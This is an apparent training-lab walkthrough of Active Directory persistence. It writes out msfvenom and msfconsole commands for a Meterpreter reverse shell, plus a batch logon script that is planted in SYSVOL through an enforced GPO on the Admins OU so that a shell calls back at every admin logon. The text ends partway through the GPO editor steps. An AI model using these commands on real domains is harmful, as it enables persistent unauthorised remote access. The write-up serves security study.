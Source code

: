 ##### Domain Wide Persistence

Some common GPO persistence techniques:

- Restricted Group Membership: Could allow administrative access to all hosts in the domain.
- Logon Script Deployment: This will ensure that we get a shell call back every time a user authenticates to a host in the domain.

We will focus on the second hook, to do this we will create a GPO that is linked to the Admin OU, which will allow us to get a shell on a host every time one of them authenticates to a host.

##### Preparation

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<ip address> lport=<port> -f exe > <output file name>` - Create a reverse shell.

Windows allows us to execute Batch or Powershell scripts through the logon GPO, batch files are often more stable so we will create one that will copy our executable to the host and execute it once a user authenticates.

`copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<shell file name> C:\tmp\<shell file name> && timeout /t 20 && C:\tmp\<reverse shell file name>` - Create this script in a .bat file, the script will wait 20 seconds after copying the binary before executing it.

`scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/` and `scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/` - Use SCP to copy both files to the target machine.

`msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <ip address>; set LPORT <port>;exploit"` - Start the MSF listener.

Now use runas to launch cmd with administrator privileges (Command in the last task).

##### GPO Creation

Open Group Policy Management snap-in:

1. In your runas-spawned terminal, type MMC and press enter.
2. Click on **File**->**Add/Remove Snap-in...**
3. Select the **Group Policy Management** snap-in and click **Add**
4. Click **OK**

Here we can technically write our contents to the default domain policy, which should propagate to all AD objects, here we will take more narrow approach to show the process.

Write a GPO that will be applied to all admins by right clicking the Admins OU and select Create a GPO in this domain. Give your GPO a name.

Right click on the policy and select Enforced, this way the policy will apply even if there is a conflicting policy, now right click on the policy and select edit.

Get back to our Group Policy Management Editor:

1. Under User Configuration, expand **Policies->Windows Settings**.
2. Select **Scripts (Logon/Logoff)**.
3. Right-click on **Logon->Properties**
4. Select the **Scripts** tab.
5. Click **Add->Browse**.

